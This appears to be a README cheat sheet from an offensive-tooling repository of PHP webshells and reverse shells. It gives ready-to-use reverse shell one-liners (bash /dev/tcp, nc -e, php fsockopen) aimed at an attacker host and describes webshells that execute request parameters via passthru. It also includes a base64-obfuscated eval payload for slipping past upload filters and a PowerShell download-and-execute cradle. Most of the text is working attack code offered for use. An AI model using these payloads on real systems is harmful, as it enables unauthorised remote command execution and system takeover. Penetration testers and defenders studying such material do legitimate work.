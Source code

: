 <h3 align='center'><b>One-liner php reverse shell</b></h3>
 <pre><code>&lt;?php exec("/bin/bash -c 'bash -i >/dev/tcp/&lt;IP>/&lt;PORT> 0>&1'"); ?></code></pre>
<h3 align='center'><b> rev_shell.php </b></h3>
 <p>A simple python reverse shell
<h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> Reverse shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;ATTACKER_IP> &lt;ATTACKER_PORT></code></pre>
   <pre><code>bash -i >& /dev/tcp/&lt;ATTACKER_IP>/&lt;ATTACKER_PORT> 0>&1</code></pre>
   <pre><code>php -r '$sock=fsockopen("&lt;ATTACKER_IP>",&lt;ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'</code></pre>

<h3>Probably can bypass filters while upload, for example.</h3>
 <pre><code>&lt;?=eval(base64_decode('ZWNobyBzaGVsbF91eGVjKCRfR0VUWydjbWQnXS4nIDI+JjEnKTs='));?></code></pre>

 <h3 align='center'><b>Commands for Windows Reverse Shell</b></h3>
 <pre><code>python3 -m http.server 80</code></pre>
 <pre><code>nc -lvnp 4444</code></pre>
 <pre><code>powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://&lt;ATTACKER_IP>/reverse.ps1'')"</code></pre>
